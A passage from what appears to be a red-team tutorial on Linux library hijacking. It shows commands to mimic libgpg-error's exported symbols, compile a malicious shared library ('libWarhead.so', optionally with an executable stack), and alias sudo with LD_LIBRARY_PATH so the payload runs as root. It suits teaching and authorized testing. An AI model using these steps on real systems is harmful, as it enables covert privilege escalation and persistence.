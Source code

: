 This command will list the functions exported by `libgpg-error.so.0`.

### Creating a Symbols File (Optional)

Once you have identified the required symbols, you can create a symbol file for your malicious library. This ensures that your library exports the same symbols as the original, preventing crashes or errors when the application loads it.

```bash
readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
```

Here’s an example of a symbol file for `libgpg-error.so.0`:

```
# save as gpg.map

GPG_ERROR_1.0 {
gpgrt_onclose;
_gpgrt_putc_overflow;
gpgrt_fflush;
gpgrt_poll;
};
```
### Compile the Payload

The payload can finally be compiled into a shared library. If performing simple command execution or a native reverse shell use the commands below.

```bash
gcc -Wall -fPIC -c -o payload.o payload.c
gcc -shared -o libWarhead.so payload.o (Optional: --version-script gpg.map)
```
However, if compiling for shell code execution we need to ensure the stack is made executable.
```bash
gcc -Wall -fPIC -c -o payload.o payload.c -z execstack
gcc -shared -o libWarhead.so payload.o -z execstack (Optional: --version-script gpg.map)
```

## Execution
Once the above steps are completed. Execution can be tested as the current user by simply running the targeted binary. Using the examples above we would then finally simply run.
```bash
top
```
This methodology can also be abused to run commands as root. Providing a binary can be started with Sudo.

```bash
alias sudo="sudo LD_LIBRARY_PATH=/home/offsec/"
source ~/.bashrc
sudo top
```
